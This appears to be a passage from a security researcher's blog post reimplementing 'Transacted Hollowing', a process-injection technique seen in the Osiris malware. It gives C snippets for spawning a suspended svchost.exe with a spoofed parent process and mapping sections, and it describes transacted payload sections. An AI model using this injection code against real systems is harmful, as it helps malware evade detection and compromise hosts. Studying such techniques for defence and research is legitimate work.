 Transacted Hollowing first spawns a new, innocent, suspended process from a legitimate executable. It maps a copy of the executable into its own process for later use when calculating offsets.

Next it uses transactions to create a new file containing the malicious payload, which in turn is used to create a new section, after which the transaction is rolled back.

It will then map the malicious section into the remote process as an additional module, thus not carving out and replacing the original image.

Finally the *entry point* of the original image is redirected and the PEB of the remote process is patched, then the process is resumed.

### 6. Rome wasn't built in a day

Naturally, if a professional blackhat malware author can write something cool like this, so can I. Right? Wrong. But I tried :)

Initially I thought there would be plenty of resources out there already of people adopting this novel technique, however I came up empty handed. I went as far as obtaining source code for a related piece of malware and a sample of Osiris itself to analyze, to base my work upon. Maybe I've overestimated my ability a little bit this time.

#### 1. Spawning a process and map a copy

Spawning a new suspended process is a trivial task at this point. I reused my code to enumerate running processes looking for *explorer.exe* and open a handle to it. This handle is used to spoof the parent process ID (PPID) of the newly spawned process.

```c
PROCESS_INFORMATION pi = Spawn("C:\\Windows\\System32\\svchost.exe -k netsvc -p -s UserManager", GetParentHandle("explorer.exe"));
```

Next I'll map a copy of *svchost.exe* in the current process.

```c
//<truncated for space>
RtlInitUnicodeString(&procFileName, (PCWSTR)L"\\??\\C:\\Windows\\System32\\svchost.exe");
RtlZeroMemory(&sb, sizeof(IO_STATUS_BLOCK));
InitializeObjectAttributes(&oat, &procFileName, OBJ_CASE_INSENSITIVE, NULL, NULL);

NtOpenFile(&hFile, FILE_GENERIC_READ, &oat, &sb, FILE_SHARE_READ, FILE_SYNCHRONOUS_IO_NONALERT);
//<truncated for space>
NtCreateSection(&hProcSection, SECTION_ALL_ACCESS, NULL, 0, PAGE_READONLY, SEC_COMMIT, hFile);
//<truncated for space>
NtMapViewOfSection(hProcSection, GetCurrentProcess(), &sectionaddr, 0, 0, NULL, &size, ViewUnmap, 0, PAGE_READONLY);

NtClose(hFile);
NtClose(hProcSection);
```

#### 2. Using transactions to create a malicious section

Instead of using the high level API `CreateFileTransactedW` to create the transacted file, I used a combination of two low level API's, `RtlSetCurrentTransaction` followed by `NtCreateFile`. I did a similar thing to write to the transacted file with `RtlSetCurrentTransaction` followed by `NtWriteFile`.

